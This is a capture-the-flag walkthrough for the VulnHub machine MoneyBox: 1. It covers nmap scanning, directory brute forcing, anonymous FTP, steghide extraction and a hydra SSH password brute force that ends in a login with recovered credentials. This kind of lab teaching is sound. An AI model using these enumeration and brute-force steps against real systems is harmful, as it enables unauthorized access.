:::::::::::::::::: page
# MoneyBox: 1 {#moneybox-1 .title}

\

## 

## MoneyBox: 1

- **[MoneyBox: 1]{style="color:#f66151;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/moneybox-1,653/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#e01b24;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.220
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.220
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.220  
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.220
:::

1.  [Web Enumeration]{style="color:#e01b24;"} :

- IP visit in browser : <http://192.168.2.220>

<!-- -->

- Directory brute force to find parameter :

::: codebox
    gobuster dir -u http://192.168.2.220 -w /usr/share/wordlists/dirb/common.txt
:::



- Visit the parameter : <http://192.168.2.220/blogs/>

<!-- -->

- See the source code :



- Now visit the /S3cr3t-T3xt directory :
  <http://192.168.2.220/S3cr3t-T3xt/>

<!-- -->

- View the source code :



- Find the secret key :

::: codebox
    3xtr4ctd4t4
:::

1.  [FTP Enumeration]{style="color:#e01b24;"} :

- Login ftp with anonymous user :

::: codebox
    ftp 192.168.2.220
:::

- List Available Files :

::: codebox
    ls
:::

- Download Sensitive Files :

::: codebox
    get trytofind.jpg
:::



- Steghide Extraction with Password :

::: codebox
    steghide extract -sf trytofind.jpg
:::



- Read the file :

::: codebox
    cat data.txt
:::



- SSH Brute force :

::: codebox
    hydra -l renu -P /opt/rockyou.txt ssh://192.168.2.220
:::



- Username and Password found :

::: codebox
    Username : renu
    Password : 987654321
:::

1.  [Make SSH Connection]{style="color:#e01b24;"} :

- Login ssh :

::: codebox
    ssh renu@192.168.2.220
:::


::::::::::::::::::
